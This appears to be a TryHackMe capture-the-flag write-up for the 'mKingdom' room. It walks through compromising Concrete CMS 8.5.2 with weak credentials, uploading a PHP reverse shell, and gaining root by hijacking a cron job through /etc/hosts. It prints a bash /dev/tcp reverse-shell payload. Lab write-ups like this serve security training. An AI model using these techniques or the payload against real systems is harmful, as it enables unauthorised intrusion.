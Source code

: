 ```yaml
---
title: THM mKingdom
author: hanhctf
date: 2024-06-20 12:00:00 +0700
categories: [Write-up, THM]
tags: []
toc: true
mermaid: true
---
```


# [**mKingdom**](https://tryhackme.com/r/room/mkingdom)

# Summary

> - Weak credentials in the admin portal.
> - Hidden Creds in the backup file and environment.  

## NMAP

```text
PORT   STATE SERVICE REASON  VERSION
85/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0H N0! PWN3D 4G4IN
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

## Web Enumeration

On the homepage, nothing interesting.  
FUZZ directory with `ffuf`, we found `/app`.  
![](/commons/THM/mKingdom/0_app.png)  

Looking on `/app`.  
The app is using `Concrete CMS 8.5.2`.  
A quick search about `Concrete CMS 8.5.2`.  
![](/commons/THM/mKingdom/1_CMS.png)

After reading `Document`, we found the login page URL.  
![](/commons/THM/mKingdom/2_login.png)  

`Weak credential`. Log in to `dashboard` with weak credentials.  

After checking some functions in the admin dashboard.
We can upload files to the system. `File upload` vuln is the first thing on my mind.  
After checking some techniques to bypass the system, cannot bypass it.  
Continuous check other settings, we can add file `extensions`.  
Add `.php` and upload a `php reverse shell`.  
![](/commons/THM/mKingdom/3_extensions.png)  

![](/commons/THM/mKingdom/4_rev.png)  

![](/commons/THM/mKingdom/5_shell.png)  

Spawn a tty shell with Python.  

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

[linpeas.sh](https://github.com/peass-ng/PEASS-ng). I've mentioned it many times, it's one of my favorite tools for finding ways to escalate privileges.  
Found interesting `password`  
![](/commons/THM/mKingdom/6_toad.png)  

Change the user and run `linpeas.sh` again.  

![](/commons/THM/mKingdom/7_mario.png)  

***GOT USER.TXT FLAG***

## Privilege Escalation

Continuing run `linpeas.sh`. we discovered a bunch of interesting things but none of them were usable.  
![](/commons/THM/mKingdom/8_hosts.png)  

After deep enumeration, check cronjob with [pspy](https://github.com/DominicBreuker/pspy)  

![](/commons/THM/mKingdom/9_curl.png)  

Lookback, we can edit `/etc/hosts`.  
Create a `/app/castle/application/counter.sh` in localhost.

```shell
#!/bin/bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

And run the HTTP server on port 85.
Change `/etc/hosts` with `localIP mkingdom.thm` and  
![](/commons/THM/mKingdom//10_root.png)

***GOT ROOT.TXT FLAG***
